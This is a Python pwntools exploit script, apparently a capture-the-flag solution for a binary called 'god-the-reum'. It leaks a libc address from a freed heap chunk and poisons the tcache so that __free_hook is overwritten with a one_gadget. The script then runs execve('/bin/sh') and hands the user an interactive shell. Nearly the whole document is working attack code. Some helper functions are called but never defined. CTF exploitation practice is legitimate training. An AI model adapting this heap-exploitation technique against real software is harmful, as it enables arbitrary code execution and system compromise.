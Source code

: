 ```python

def Develop(num, eth):
	r.sendlineafter('select your choice : ', '6')
	r.sendlineafter('input wallet no : ', str(num))
	sleep(1)
	r.sendlineafter('new eth : ', eth)

context.log_level = 'debug'
r = process('./god-the-reum', env={'LD_PRELOAD':'./libc-2.27.so'}) 
r = process('./god-the-reum')
libc = ELF('./libc-2.27.so')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
gdb.attach(r)

'''
0x7ffff7dd1b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000

0x4f2c5	execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322	execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
one = [0x4f2c5, 0x4f322, 0x10a38c]

Create(0x410) # 0x410 + header = 0x420
Create(0x60)
Withdraw(0, 0x410)
leak = Show(0)

# main_arena + 96
libc_base = leak - 96 - libc.symbols['__malloc_hook'] - 0x10
__free_hook = libc_base + libc.symbols['__free_hook']
one_gadget = libc_base + one[1]
success('leak(main_arena+88) = '+hex(leak))
log.info('libc_base = '+hex(libc_base))
log.info('__free_hook = '+hex(__free_hook))
log.info('one_gadget = '+hex(one_gadget))


Withdraw(1, 0x60)
Develop(1, p64(__free_hook))

Create(0x60)
Create(0x60)
Develop(3, p64(one_gadget))

Withdraw(2, 0x60)

r.interactive()
```
